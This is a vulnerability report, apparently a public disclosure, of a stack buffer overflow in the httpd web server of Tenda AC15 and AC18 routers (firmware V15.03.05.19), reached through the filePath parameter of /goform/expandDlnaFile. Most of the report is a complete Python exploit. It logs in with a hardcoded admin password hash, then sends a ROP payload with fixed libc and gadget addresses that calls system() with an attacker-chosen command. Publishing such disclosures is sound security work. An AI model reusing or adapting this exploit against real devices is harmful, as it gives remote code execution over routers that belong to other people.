 Vendor of the products:　Tenda

Reported by: 　　　　　 [x.sunzh@gmail.com](mailto:x.sunzh@gmail.com)

Affected products:　　　AC15 V15.03.05.19_multi, AC18 V15.03.05.19_multi

# Overview

An issue was discovered on Tenda AC15 V15.03.05.19_multi and AC18 V15.03.05.19_multi devices. There is a buffer overflow vulnerability in the router’s web server – httpd. While processing the **/goform/expandDlnaFile** filePath parameter for a post request, the value is directly used in a *sprintf* function and passed to a local variable placed on the stack, which can override the return address of the function. The attackers can construct a payload to carry out arbitrary code attacks.

# Exp

```python
import requests
from urllib import parse
from pwn import *

main_url = "http://127.0.0.1:80"

def login_success():
    global password
    url = main_url + "/login/Auth"
    s = requests.Session()
    s.verify = False
    headers = {'Content-Type': 'application/x-www-form-urlencoded; charset=UTF-8'}
    data = {"username": "admin", "password": "ce80adc6ed1ab2b7f2c85b5fdcd8babc"}
    data = parse.urlencode(data)

    response = requests.post(url=url, headers=headers, data=data, allow_redirects=False)
    password = response.cookies.get_dict().get("password")
    print(response)
    if password is None:
        login_success()
    else:
        print(password)

def poc():
    url = main_url + "/goform/expandDlnaFile"

    cmd = b'echo yab....'
    libc_base = 0x40202000
    system_offset = 0x0005a270
    system_addr = libc_base + system_offset
    gadget1 = libc_base + 0x00018298
    gadget2 = libc_base + 0x00040cb8
 
    headers = {'Cookie': 'password=' + password}
    data = b'filePath='+ b'A' * (1074) + p32(gadget1) + p32(system_addr) + p32(gadget2) + cmd
    data = data.decode('latin1')
    print(len(data))
    response = requests.post(url=url, headers=headers, data=data, allow_redirects=False)
    print(response)


if __name__ == "__main__":
    login_success()
    poc()
```

# Vul Details

## Code in httpd

![image-20220811210624038](./imgs/expandDlnaFile_code.png)

## Attack effect

![img](./imgs/expandDlnaFile_effect.png)